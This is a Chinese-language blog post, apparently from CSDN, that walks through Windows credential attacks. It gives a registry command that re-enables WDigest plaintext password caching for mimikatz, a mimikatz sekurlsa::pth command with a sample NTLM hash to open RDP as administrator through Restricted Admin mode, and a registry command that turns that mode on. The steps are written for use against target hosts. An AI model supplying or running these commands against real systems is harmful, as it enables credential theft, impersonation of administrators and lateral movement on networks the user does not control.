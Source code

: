 我们知道在Windows Server2012及其以后的版本中，使用mimikatz在[内存](https://so.csdn.net/so/search?q=%E5%86%85%E5%AD%98&spm=1001.2101.3001.7020)中抓取不到明文密码了，这是微软为了防止内存中泄露明文密码做的一个安全措施。

![](https://img-blog.csdnimg.cn/20210420211432429.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

但是修改[注册表](https://so.csdn.net/so/search?q=%E6%B3%A8%E5%86%8C%E8%A1%A8&spm=1001.2101.3001.7020)后重启依然可以抓取到明文密码，执行如下命令，等待目标机器重启后使用mimikatz即可抓取到明文密码

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```


![](https://img-blog.csdnimg.cn/20210420204456668.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20210420205014702.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

但是实际环境中是不可能重启目标主机的。这里假设我们抓取到了administrator用户的哈希，想利用该哈希以administrator用户的身份[RDP](https://so.csdn.net/so/search?q=RDP&spm=1001.2101.3001.7020)登录主机，该如何操作呢。

前面我们提到，微软为了防止在Windows Server 2012 R2及其以上版本的Windows系统内存中抓到明文密码，采取了一定的安全措施。但是该安全措施却造成了`RDP`的`pth`攻击。Windows Server 2012 R2及其以上版本的Windows系统的远程桌面服务支持 `Restricted Admin mode。`也就是使用当前账户的[hash](https://so.csdn.net/so/search?q=hash&spm=1001.2101.3001.7020)凭据来登录远程桌面，无需输入明文密码。官方文档：[Restricted Admin mode for RDP in Windows 8.1 / 2012 R2 | Microsoft Docs](https://blogs.technet.microsoft.com/kfalde/2013/08/14/restricted-admin-mode-for-rdp-in-windows-8-1-2012-r2/ "Restricted Admin mode for RDP in Windows 8.1 / 2012 R2 | Microsoft Docs")

我们需要在Windows Server 2012 R2及其以上版本的Windows系统中以管理员权限执行如下命令：

```
privilege::debug      
sekurlsa::pth /user:administrator /domain:10.211.55.4 /ntlm:329153f560eb329c0e1deea55e88a1e9 "/run:mstsc.exe /restrictedadmin"
```


![](https://img-blog.csdnimg.cn/20210420212258475.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果目标机器没有开启`Restricted Admin mode的话，可以执行如下命令开启：`

```
REG ADD HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
```


注：注入的哈希用户需要是目标机器的本地管理员 

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[攻击3389之PTH](https://mp.weixin.qq.com/s/mVSc5geSYwncpOda1OT-0g "攻击3389之PTH")